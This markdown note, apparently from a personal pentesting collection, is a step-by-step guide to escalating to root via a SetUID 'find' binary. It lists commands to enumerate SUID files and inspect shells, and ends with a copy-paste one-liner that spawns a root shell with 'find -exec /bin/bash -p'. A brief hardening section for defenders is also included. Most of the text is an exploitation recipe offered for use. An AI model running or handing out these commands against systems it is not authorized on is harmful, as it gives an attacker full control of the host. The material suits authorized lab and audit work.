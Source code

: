 

# 🧨 Privilege Escalation via SUID `find` Binary

## 🔍 Summary

If the `find` binary is **SetUID** and **owned by root**, you can use it to execute arbitrary commands **as root** — including spawning a root shell.

---

## 🔐 Why It Works

- **SetUID** (`-4000` permission) makes a binary execute with **the owner’s privileges**, not the user's.
    
- If a binary is owned by **root** and SetUID, it will run as **root** even when called by a low-priv user.
    
- `find` supports `-exec` which runs arbitrary commands.
    
- If you use `find` to execute a **shell** that supports `-p` (like `bash`, `rbash`, or `sh`), 

By default, when `bash` detects it's being executed as a **SetUID** binary (e.g., owned by root, but executed by a normal user), it **drops privileges** for security reasons — meaning it refuses to run with elevated permissions.  

<mark style="background: #e74c3c;">  the `-p` flag tells the shell **not to drop privileges**, giving you a **root shell**.
</mark>




---

## 🧪 Step-by-Step Exploitation

### 🔎 1. Find SUID binaries


`find / -perm -4000 2>/dev/null`

✅ Look for `/usr/bin/find`

---

### 🔍 2. Check if `find` is root-owned and has SUID



`ls -l /usr/bin/find`

Output should look like:

`-rwsr-xr-x 1 root root ... /usr/bin/find`

The `s` in `rws` confirms SUID.

---

### 🔎 3. Find an executable shell

Check which shells are present:

	cat /etc/shells

Then check their permissions:

	cat /etc/shells | while read shell; do ls -l $shell 2>/dev/null; done

✅ Look for:

- `/bin/bash`, `/bin/sh`, or `/bin/rbash`
    
- Preferably symlinks to `bash`, which supports the `-p` flag
    

---

### 🚀 4. Exploit with `find` + shell

Spawn a root shell:

	/usr/bin/find / -exec /bin/bash -p \; -quit

Or:

	/usr/bin/find / -exec /bin/rbash -p \; -quit

Confirm you're root:

`whoami`

---

## 🧷 Mitigation (For Hardening Notes)

If you're a defender or auditing a system:

- **NEVER** give SetUID to binaries like `find`, `vim`, `cp`, etc.
    
- Run:
    
    `chmod u-s /usr/bin/find`
    
- Use AppArmor or SELinux to restrict execution
    
- Regularly audit with:
    
    `find / -perm -4000 -type f 2>/dev/null`
    

---

## ✅ Quick Copy-Paste One-Liner

	/usr/bin/find / -exec /bin/bash -p \; -quit

---

# **If find isn't available:**


	ls -l /bin /sbin /usr/bin /usr/sbin 2>/dev/null | grep rws